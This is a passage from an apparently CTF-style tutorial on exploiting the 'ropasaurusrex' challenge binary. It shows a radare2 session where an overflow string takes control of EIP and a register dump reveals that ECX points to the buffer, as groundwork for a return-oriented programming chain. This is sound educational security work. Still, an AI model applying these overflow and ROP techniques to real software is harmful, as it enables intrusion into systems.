 STAGE3
our shell payload
```

# Constructing a more complex ropchain
Let's try something else:
```
$ r2 -d ./ropasaurusrex
Process with PID 32702 started...
PID = 32702
r_debug_select: 32702 32702
pid = 32702 tid = 32702
[0xf77aa0d0]> dc
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[+] signal 11 aka SIGSEGV received
[0x42424242]> dr
eip = 0x42424242
oeax = 0xffffffff
eax = 0x00000091
ebx = 0xf777a000
ecx = 0xffd174b0
edx = 0x00000100
esp = 0xffd17540
ebp = 0x41414141
esi = 0x00000000
edi = 0x00000000
eflags = 0x00010207
[0x42424242]> pxw 12  @ ecx -1
0xffd174af  0x414141f7 0x41414141 0x41414141            .AAAAAAAAAAA    
```
It seems that ecx points to the beginning of our buffer.
